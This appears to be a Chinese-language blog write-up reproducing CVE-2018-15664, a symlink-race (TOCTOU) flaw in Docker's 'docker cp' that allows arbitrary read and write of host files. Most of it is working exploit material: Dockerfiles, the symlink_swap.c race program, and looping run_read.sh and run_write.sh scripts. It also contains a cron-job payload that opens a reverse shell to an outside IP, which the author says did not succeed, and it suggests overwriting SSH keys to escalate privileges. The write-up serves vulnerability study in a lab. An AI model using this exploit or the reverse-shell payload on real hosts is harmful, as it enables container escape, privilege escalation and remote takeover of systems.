

简介 在18.06.1-ce-rc2版本之前的Docker中，docker cp命令对应的后端API存在基于竞争的符号链接替换漏洞，能够导致目录穿越。攻击者可以利用此漏洞以root权限实现宿主机文件系统的任意读写，CVSS 3.x评分为7.5分。
漏洞原理 CVE-2018-15664是一个TOCTOU(time-of-check to time-of-use)问题，属于竟态条件漏洞。
这个问题指的是对象进行安全检查和使用该对象的步骤之间存在间隙，攻击者可以先构造并放置一个能够通过安全检查的合法对象，顺利通过目标程序的安全检查流程，然后立即使用恶意对象替换之前的合法对象 。这样一来，目标程序真正使用的实际上是被替换后的恶意对象。

漏洞原理流程图
攻击首先利用合法文件进行合法校验，正常文件校验通过之后再把合法文件替换为恶意文件。达到恶意利用的目的。以上就是TOCTOU问题的原理。这个问题看起来很抽象，他在实际的攻防中如何实现呢？
对于CVE-2018-15664来说，当用户执行docker cp命令后，Docker守护进程收到这个请求，就会对用户给出的复制路径进行检查。如果路径中有容器内部的符号链接，则先在容器内部将其解析成路径字符串，留待后用。
一眼看上去，该流程似乎很正常，但要考虑到容器内部环境不可控。如果Docker守护进程检查复制路径时，攻击者先在这里放置一个非符号链接的常规文件或目录（提供合法文件/xxx），检查结束后，攻击者赶在Docker守护进程使用这个路径前将其替换为一个符号链接（替换为/yyy恶意文件），那么这个符号链接就会于被打开时在宿主机上解析，从而导致目录穿越 。
环境安装 使用metarget 进行安装
1 sudo ./metarget cnv install cve-2018-15664
此时安装了具有cve-2018-15664漏洞的docker版本。复现该漏洞还需要启动一些docker镜像来进行验证。
《云原生安全-攻防实践与体系构建》一书的配套靶场
Poc:
1 2 3 4 5 6 7 02-CVE-2018-15664/ └── symlink_race ├── build │ ├── Dockerfile │ └── symlink_swap.c ├── run_read.sh └── run_write.sh
Poc Dockerfile 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 FROM opensuse/leapRUN zypper in -y gcc glibc-devel-static RUN mkdir /builddir COPY symlink_swap.c /builddir/symlink_swap.c RUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c FROM opensuse/leapARG SYMSWAP_TARGET=/w00t_w00t_im_a_flagARG SYMSWAP_PATH=/totally_safe_pathRUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET " COPY --from=0 /builddir/symlink_swap /symlink_swap ENTRYPOINT ["/symlink_swap" ]
这个Dockerfile使用了多个from。
多个FROM指令并不是为了生成多根的层关系，最后生成的镜像，仍以最后一条FROM为准。
每一条FROM指令都是一个构建阶段，多条FROM就是多阶段构建，虽然最后生成的镜像只能是最后一个阶段的结果，但是能够将前置阶段中的文件拷贝到后边的阶段，这就是多阶段构建的最大意义。
参考：https://segmentfault.com/a/1190000016137548
所以这里的第一个FROM主要为了编译symlink_swap。
symlink_swap.c 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 #define _GNU_SOURCE #include <fcntl.h> #include <stdlib.h> #include <stdio.h> #include <sys/types.h> #include <sys/stat.h> #include <sys/syscall.h> #include <unistd.h> #define usage() \ do { printf("usage: symlink_swap <symlink>\n" ); exit(1); } while(0) #define bail(msg) \ do { perror("symlink_swap: " msg); exit(1); } while (0) #define RENAME_EXCHANGE (1 << 1) int main (int argc, char **argv) if (argc != 2 ) usage(); char *symlink_path = argv[1 ]; char *stash_path = NULL ; if (asprintf(&stash_path, "%s-stashed" , symlink_path) < 0 ) bail("create stash_path" ); struct stat sb =0 }; if (!lstat(symlink_path, &sb)) { int err; if (sb.st_mode & S_IFDIR) err = rmdir(symlink_path); else err = unlink(symlink_path); if (err < 0 ) bail("unlink symlink_path" ); } if (symlink("/" , symlink_path) < 0 ) bail("create symlink_path" ); if (mkdir(stash_path, 0755 ) < 0 ) bail("mkdir stash_path" ); for (;;) { int err = renameat2(AT_FDCWD, symlink_path, AT_FDCWD, stash_path, RENAME_EXCHANGE); if (err < 0 ) perror("symlink_swap: rename exchange failed" ); } return 0 ; }
symlink_swap.c的任务是在容器内创建指向根目录/的符号链接，并不断地交换符号链接（由命令行参数传入，如/totally_safe_path）与一个正常目录（例如/totally_safe_path-stashed）的名字。
这样一来，在宿主机上执行docker cp时，如果首先检查到/totally_safe_path是一个正常目录，但在后面执行复制操作时/totally_safe_path却变成了一个符号链接(需要读取/写入如的文件链接)，那么Docker将在宿主机上解析这个符号链接。
run_write.sh 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 # !/bin/zsh # 需要此处需要注意，在linux执行的话，需要修改为 SYMSWAP_PATH=/totally_safe_path SYMSWAP_TARGET=/w00t_w00t_im_a_flag # Create our flag. # 创建flag 到/w00t_w00t_im_a_flag文件 echo "FAILED -- HOST FILE UNCHANGED" | sudo tee "$SYMSWAP_TARGET" # 添加权限 sudo chmod 0444 "$SYMSWAP_TARGET" # Run and build the malicious image. # 运行并构建恶意镜像 # --tag, -t: 镜像的名字及标签，通常 name:tag 或者 name 格式；可以在一次构建中为一个镜像设置多个标签。 # --rm :设置镜像成功后删除中间容器； # -d 后台运行 docker build -t cyphar/symlink_swap \ --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \ --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/ # ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH " ) # 输出内容到当前目录的localpath文件 echo "SUCCESS -- HOST FILE CHANGED" | tee localpath # Now continually try to copy the files. # 拷贝文件，尝试触发漏洞 while true do # 从宿主机拷贝文件到容器 # 触发条件竞争即可拷贝localpath到宿主机的$SYMSWAP_TARGET 。达到低权限任意文件写的提权目的 docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET" done
可能的攻击场景： 用户获取一个低权限账号，但是这个权限能够操控docker的（其实利用正如作者所说利用特权容器更加简单容易）。
利用这个方式可向宿主机任意目录写入文件。通过写反弹shell到定时任务目录，写ssh私钥覆盖等方式能达到提权的目的。
简单尝试了一下向ubuntu的定时任务写shell。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 FROM opensuse/leapRUN zypper in -y gcc glibc-devel-static RUN mkdir /builddir COPY symlink_swap.c /builddir/symlink_swap.c RUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c FROM ubuntu:18.04 ARG SYMSWAP_PATH=/var/spool/cron/crontabsARG SYMSWAP_TARGET=/rootRUN apt-get update RUN apt-get install cron COPY --from=0 /builddir/symlink_swap /symlink_swap ENTRYPOINT ["/symlink_swap" ]
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 # !/bin/bash SYMSWAP_PATH=/totally_safe_path SYMSWAP_TARGET=/var/spool/cron/crontabs/root # Run and build the malicious image. docker build -t cyphar/symlink_swap \ --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \ --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/ ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH") # 定时任务shell echo "*/1 * * * * bash -c 'bash -i >& /dev/tcp/45.156.x.x/2334 0>&1' > /home/ubuntu/test.txt" | tee localpath # 拷贝文件，尝试触发漏洞 while true do # 从宿主机拷贝文件到容器 # 触发条件竞争即可拷贝localpath到宿主机的$SYMSWAP_TARGET 。达到低权限任意文件写的提权目的 docker cp localpath "${ctr_id}:$SYMSWAP_PATH$SYMSWAP_TARGET" done
最后也没有尝试成功。有复现出来的大佬可以给留言评论探讨一下。
run_read.sh 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 SYMSWAP_PATH=/totally_safe_path SYMSWAP_TARGET=/w00t_w00t_im_a_flag # Create our flag. echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee "$SYMSWAP_TARGET" sudo chmod 000 "$SYMSWAP_TARGET" # Run and build the malicious image. docker build -t cyphar/symlink_swap \ --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \ --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/ ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH") # Now continually try to copy the files. idx=0 while true do mkdir "ex${idx}" # 拷贝容器的文件到宿主机 # 这里触发条件竞争即可拷贝任意宿主机文件到ex${idx)/out。达到低权限任意读取宿主机文件的提权目的 docker cp "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET" "ex${idx}/out" idx=$(($idx + 1)) done
这里触发条件竞争即可拷贝任意宿主机文件到ex${idx)/out。达到低权限任意读取宿主机文件的提权目的
总体来说这个漏洞还是比较鸡肋，但是对于漏洞学习，研究来说还是很有价值的。
参考 《云原生安全：攻防实践与体系构建》

 alipay
alipay